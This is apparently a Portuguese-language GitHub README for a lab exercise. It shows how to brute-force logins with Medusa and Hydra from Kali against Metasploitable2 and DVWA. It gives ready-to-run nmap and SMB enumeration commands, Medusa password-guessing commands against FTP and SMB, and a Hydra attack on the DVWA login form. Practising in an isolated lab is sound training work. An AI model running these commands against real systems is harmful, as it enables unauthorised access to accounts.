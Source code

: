 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"



### 🧩 Evidências

**1️⃣ Resultado do Nmap**  
<p align="center">
  <img src="imagens/imagem1.PNG" alt="Nmap scan" width="600"/>
</p>

**2️⃣ Medusa – FTP**  
<p align="center">
  <img src="imagens/imagem2.png" alt="Medusa FTP" width="600"/>
</p>

**3️⃣ DVWA – Login**  
<p align="center">
  <img src="imagens/imagem3.png" alt="DVWA login" width="600"/>
</p>

**4️⃣ Teste adicional**  
<p align="center">
  <img src="imagens/imagem4.png" alt="Teste" width="600"/>
</p>

**5️⃣ Outra captura**  
<p align="center">
  <img src="imagens/imagem5.png" alt="Outra captura" width="600"/>
</p>

